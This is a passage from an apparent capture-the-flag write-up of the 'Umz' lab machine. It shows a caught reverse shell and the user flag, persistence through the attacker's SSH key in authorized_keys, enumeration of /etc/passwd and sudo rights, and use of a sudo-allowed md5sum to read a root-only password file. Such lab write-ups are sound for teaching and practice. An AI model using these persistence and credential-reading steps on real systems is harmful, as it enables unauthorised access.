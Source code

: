 ```bash
connect to [10.6.6.5] from (UNKNOWN) [10.9.9.22] 41498
cd  /home
whoami
welcome
cd welcome
ls
user.txt
cat user.txt
flag{user-4483f72525b3c316704cf126bec02d5c}
```
In order to gain a more interactive and stable shell we add our attackers ssh public key to the targets authorized keys file
```bash
ls -la
total 28
drwxr-xr-x 3 welcome welcome 4096 Aug 19 08:32 .
drwxr-xr-x 4 root    root    4096 May  3 10:27 ..
lrwxrwxrwx 1 root    root       9 May  3 10:26 .bash_history -> /dev/null
-rw-r--r-- 1 welcome welcome  220 Apr 11 22:27 .bash_logout
-rw-r--r-- 1 welcome welcome 3526 Apr 11 22:27 .bashrc
-rw-r--r-- 1 welcome welcome  807 Apr 11 22:27 .profile
drwxr-xr-x 2 welcome welcome 4096 Aug 19 08:33 .ssh
-rw-r--r-- 1 root    root      44 May  3 10:26 user.txt
cd .ssh
ls
authorized_keys
cat authorized_keys
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGJstjRMdt87OXEclXoCNTDu26ys8XEqZQK2X96erxhJ public key to VMs
```
from here, we can kill the current shell and login using ssh. I named the ssh key file `vuln_vm`. I have many ssh files and that's why I had to include the private key in the command
```bash
kali :: exercises/HMV/umz » ssh welcome@10.9.9.22 -i ~/.ssh/vuln_vm 
```
### Privilege Escalations
Check for all the users that are present on the system
```bash
welcome@Umz:/opt/flask-debug$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
welcome:x:1000:1000:,,,:/home/welcome:/bin/bash
umzyyds:x:1001:1001:,,,:/home/umzyyds:/bin/bash
```
The `sudo -l` command check to see what commands can the user run as another user.
```bash
welcome@Umz:~$ sudo -l
Matching Defaults entries for welcome on Umz:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User welcome may run the following commands on Umz:
    (ALL) NOPASSWD: /usr/bin/md5sum
```
After going through some of the common files, I came across the `/opt` folder and discovered the source code of the python file that hosts the `8080` server. 
```bash
welcome@Umz:~$ ls -la /opt/flask-debug/
total 20
drwxr-xr-x 2 welcome welcome 4096 May  3 10:32 .
drwxr-xr-x 3 root    root    4096 May  3 09:46 ..
-rw-r--r-- 1 root    root    5001 May  3 10:23 flask_debug.py
-rwx------ 1 root    root      10 May  3 10:32 umz.pass

welcome@Umz:/opt/flask-debug$ sudo md5sum umz.pass
a963fadd7fd379f9bc294ad0ba44f659  umz.pass
```